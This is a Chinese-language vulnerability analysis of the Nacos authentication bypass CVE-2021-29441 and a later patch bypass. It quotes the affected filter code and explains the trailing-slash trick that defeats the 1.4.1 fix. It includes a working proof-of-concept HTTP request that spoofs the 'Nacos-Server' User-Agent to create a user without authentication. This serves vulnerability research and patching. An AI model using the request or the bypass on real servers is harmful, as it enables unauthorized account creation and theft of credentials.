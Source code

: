 ```yaml
---
title: Nacos 认证绕过漏洞（CVE-2021-29441）及其补丁绕过分析
date: 2021-08-31 16:39:08
tags:
    - 漏洞分析
    - 漏洞复现
---
```

    本文首发于奇安信攻防社区:https://forum.butian.net/share/573
    
### 漏洞背景

阿里巴巴在2018年7月份发布Nacos, Nacos是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。简单来说，Nacos就是一个类似于Zookeeper的配置中心。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为"Nacos-Server"，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server"，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

### 漏洞详情

漏洞出现在`com.alibaba.nacos.core.auth.AuthFilter#doFilter`函数，如果useragent等于`Constants.NACOS_SERVER_HEADER`这个常量，那么就进入下一个filter，不在进行认证校验。

```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        
        if (!authConfigs.isAuthEnabled()) {
            chain.doFilter(request, response);
            return;
        }
        
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
        
        String userAgent = WebUtils.getUserAgent(req);
        
        if (StringUtils.startsWith(userAgent, Constants.NACOS_SERVER_HEADER)) {
            chain.doFilter(request, response);
            return;
        }
        
        try {
            
            Method method = methodsCache.getMethod(req);
            
            if (method == null) {
                chain.doFilter(request, response);
                return;
            }
            
            if (method.isAnnotationPresent(Secured.class) && authConfigs.isAuthEnabled()) {
                
                if (Loggers.AUTH.isDebugEnabled()) {
                    Loggers.AUTH.debug("auth start, request: {} {}", req.getMethod(), req.getRequestURI());
                }
                
                Secured secured = method.getAnnotation(Secured.class);
                String action = secured.action().toString();
                String resource = secured.resource();
                
                if (StringUtils.isBlank(resource)) {
                    ResourceParser parser = secured.parser().newInstance();
                    resource = parser.parseName(req);
                }
                
                if (StringUtils.isBlank(resource)) {
                    // deny if we don't find any resource:
                    throw new AccessException("resource name invalid!");
                }
                
                authManager.auth(new Permission(resource, action), authManager.login(req));
                
            }
            chain.doFilter(request, response);
        } catch (AccessException e) {
            if (Loggers.AUTH.isDebugEnabled()) {
                Loggers.AUTH.debug("access denied, request: {} {}, reason: {}", req.getMethod(), req.getRequestURI(),
                        e.getErrMsg());
            }
            resp.sendError(HttpServletResponse.SC_FORBIDDEN, e.getErrMsg());
            return;
        } catch (IllegalArgumentException e) {
            resp.sendError(HttpServletResponse.SC_BAD_REQUEST, ExceptionUtil.getAllExceptionMsg(e));
            return;
        } catch (Exception e) {
            resp.sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "Server failed," + e.getMessage());
            return;
        }
    }
```

绕过认证之后就可以进行很多危险的操作，例如`com.alibaba.nacos.console.controller.UserController`中的操作。

```javascript
@Secured(resource = NacosAuthConfig.CONSOLE_RESOURCE_NAME_PREFIX + "users", action = ActionTypes.WRITE)
@PostMapping
public Object createUser(@RequestParam String username, @RequestParam String password) {
    
    User user = userDetailsService.getUserFromDatabase(username);
    if (user != null) {
        throw new IllegalArgumentException("user '" + username + "' already exist!");
    }
    userDetailsService.createUser(username, PasswordEncoderUtil.encode(password));
    return RestResultUtils.success("create user ok!");
}
    
```

这个controller中包含了创建用户、删除用户等行为

如下poc即可创建一个新用户

```java
POST /nacos/v1/auth/users?username=123&password=123 HTTP/1.1
User-Agent: Nacos-Server
Host: 127.0.0.1:8848
Accept: */*


```

## 补丁修复

在1.4.1版本中，增加了一段修复代码，第一个if中，为原本的逻辑，也是默认情况下的逻辑，依然是判断User-Agent头中是否是以Nacos-server开头，，第二个if中为新增逻辑，从用户的请求中获取一个键值对，判断与配置中的键值对是否相同，如果不相同则不会进入chain.doFilter

![](img/nacos/image_GMjzJqJRJN.png)

## 补丁绕过

在补丁的第二个if中，如果用户开启了这个安全配置，且攻击者匹配失败，那么不会进入chain.doFilter，而是继续往之后的流程走，而在这段代码的下方，是这段代码

```java
try {
            
            Method method = methodsCache.getMethod(req);
            
            if (method == null) {
                chain.doFilter(request, response);
                return;
            }
            
```

如果能使getMethod方法返回null，那么认证就会被绕过。

```java
public Method getMethod(HttpServletRequest request) {
        String path = getPath(request);
        if (path == null) {
            return null;
        }
        String httpMethod = request.getMethod();
        String urlKey = httpMethod + REQUEST_PATH_SEPARATOR + path.replace(contextPath, "");
        List<RequestMappingInfo> requestMappingInfos = urlLookup.get(urlKey);
        if (CollectionUtils.isEmpty(requestMappingInfos)) {
            return null;
        }
        List<RequestMappingInfo> matchedInfo = findMatchedInfo(requestMappingInfos, request);
        if (CollectionUtils.isEmpty(matchedInfo)) {
            return null;
        }
```

从代码来看，有多个返回null的机会，先看第一个getPath函数

```java
private String getPath(HttpServletRequest request) {
        String path = null;
        try {
            path = new URI(request.getRequestURI()).getPath();
        } catch (URISyntaxException e) {
            LOGGER.error("parse request to path error", e);
        }
        return path;
    }
```

这个是我们的请求路径，不可能为null，看第二部分

```java
        String urlKey = httpMethod + REQUEST_PATH_SEPARATOR + path.replace(contextPath, "");
        List<RequestMappingInfo> requestMappingInfos = urlLookup.get(urlKey);
        if (CollectionUtils.isEmpty(requestMappingInfos)) {
            return null;
        }
```

这个urllookup存放了所有的api

![](img/nacos/image_2wo81AEwDo.png)

这里的绕过用到了一个小trick，一个普通的请求

```java
http://127.0.0.1/user/login?username=1&password=2
```

通过`new URI(request.getRequestURI()).getPath();`处理后，得到的path是`/user/login`。

但是如果请求长这个样子

```java
http://127.0.0.1/user/login/?username=1&password=2
```

那么得到的path会是`/user/login/`

而这样子的path，在urlkey中会get不到数据，从而导致了绕过，并且在后续的filter处理中这个多出来的`/`并不会影响路由结果。

![](img/nacos/image_fwsucAjJ7U.png)

### 绕过补丁

官方在这个commit中修复了这此绕过[https://github.com/alibaba/nacos/commit/2cc0be6ae1cee1f2bcd2b19886380a15004eae47#diff-d5e3e36338473d502083b47c9a5d3e162203eb17eea81e406bfa2e046ff30c7f](https://github.com/alibaba/nacos/commit/2cc0be6ae1cee1f2bcd2b19886380a15004eae47#diff-d5e3e36338473d502083b47c9a5d3e162203eb17eea81e406bfa2e046ff30c7f "https://github.com/alibaba/nacos/commit/2cc0be6ae1cee1f2bcd2b19886380a15004eae47#diff-d5e3e36338473d502083b47c9a5d3e162203eb17eea81e406bfa2e046ff30c7f")。

![](img/nacos/image_gdUkVvfEq5.png)

在urllookup中存放URL路径时均会在最后增加一个`/`，导致之前的绕过失效。
